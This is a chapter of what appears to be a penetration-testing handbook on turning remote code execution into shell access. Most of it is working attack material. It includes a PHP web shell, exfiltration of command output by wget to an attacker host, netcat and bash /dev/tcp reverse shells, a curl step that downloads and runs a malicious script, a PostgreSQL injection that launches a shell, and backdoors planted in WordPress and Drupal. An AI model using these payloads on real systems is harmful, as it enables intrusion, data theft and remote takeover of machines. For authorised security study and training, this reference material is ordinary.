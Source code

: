 # (PART) Vuln exploit & Gaining Access {-}

# Beyond Remote Code Execution {-}

**Remote code execution** occurs after some vulnerabilities exploitation and allows users to execute
operating system commands on a remote system. 

You always have to be aware of command type execution language. Sometimes bash command are not working, so try with
languages. If the website is in php try to call phpinfo(); for example. Then you will know that your remote code execution will
look like system('whoami');

# Checking if code execution occurs {-}

Sometimes attacker don't realy know if remote code execution occurs because no direct output are visible
to him. Here we will see some technics to know if code execution runs or not.

## Time sleep technic {-}

```bash
GET /script.php?cmd=sleep+5&ok=ok HTTP/1.1
```

## Check network connectivity {-}

Lets try to ping the attacker machine, attacker can use wireshark or tcpdump.

On the attacker machine listen to icmp connection

```bash
tcpdump icmp
```
remote code execution ping

```bash
ping -c 5 <attacker ip>
```

## Use wget and netcat to execute command {-}

1. listener (attacker)

    ```bash
    nc -nlvp 443
    ```
    > [!] NOTE: use `rlwrap nc -nlvp 443` for windows machines
    
2. powned (victim)

    ```bash
    wget http://<pirate_ip>:443/`whoami`
    ```

> [ ! ] NOTE: for big files or also for php files use the | base64 command 
> ```wget http://<pirate_ip>:443/`id|base64` ```


# Visible remote code execution {-}

**Visible remote code execution** can be performed with code looking like that:

```php
<?php
echo "<html>";
echo "<pre>";
echo "<form method=GET><input type=text name=cmd style='width:400px;'>";
echo "<input type=submit value=Execute style='height:34px;'></form>";
$a = system($_GET["cmd"]);
echo "</pre></html>";
?>
```

When the remote code execution response is visible, there are some things to check:  

- Which user serves the service  
- Where  
- Interesting files content  
- Binaries  


```bash
ifconfig
whoami
id
pwd
cat /etc/passwd
cat /etc/group
which python
which curl
which nc
which wget
```

# Gaining access throw remote code execution {-}

## Listen and connection with netcat {-}

**Netcat** also known as **nc** is a utility that allows to open TCP or UDP connections throw the network.

How it work:

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    nc -e /bin/bash <pirate_ip> 443
    ```

## Connection with curl {-}

1. attacker http server (attacker)  

    ```bash
    python -m http.server 9090
    ```

1. powned (victim)  

    ```bash
    mkdir /tmp/r
    curl http://<pirate_ip>:9090/reverse_tcp_malicious.sh -o /tmp/r
    chmod +x /tmp/r/reverse_tcp_malicious.sh
    ```

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    /tmp/r
    ```

## Spawning a terminal from a shell {-}

After a successfull connection it's important to prepare the shell to be able to work confortably.
The following command are always the same:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

> [ ! ] Note: stty -a is done in the attacker shell to know rows and columns size


# Use SQL Injection for create a reverse shell {-}

## Postgresql {-}

1. Check the db VERSION

    ```
    ' UNION SELECT NULL, NULL, NULL, NUUL, VERSION() --
    ```

1. Create a table for execute commands

    ```
    '; CREATE TABLE cmd_exec(cmd_output text) --
    ```

1. Initiate a reverse shell

    ```
    '; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.10.10/443 0>&1'''; --
    ```

## Wordpress {-}

When we are connected to the wordpress admin panel, the trick is to modify Theme **404.php** file.

We can go to `Appearance > Editor` and update 404 Template.

> [ ! ] Note: if this file doesn't exist, **Select theme to edit** and search for another theme.

listen on port 443

```bash
nc -nlvp 443
```

Edit 404.php file by inserting a reverse shell,

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

Go to url `http://10.10.10.10/?p=404.php` or `http://10.10.10.10/wp-content/themes/<theme-name>/404.php`


## Druppal {-}

Para ejecutar commandos o mejor dicho, para ganar accesso al systema desde un admin panel de drupal siempre es el mismo.

1. En modules, habilitar el componente PHP Filter

    ```r
    knitr::include_graphics("images/drupal-phpfilter.png")
    ```

1. Crear un nuevo contenido

    ```r
    knitr::include_graphics("images/drupal-new-article.png")
    ```

1. Ponernos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En drupal añadir en el body

    ```php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
    ```

1. En Text Format le ponemos a **PHP code**
1. Le damos al boton Preview

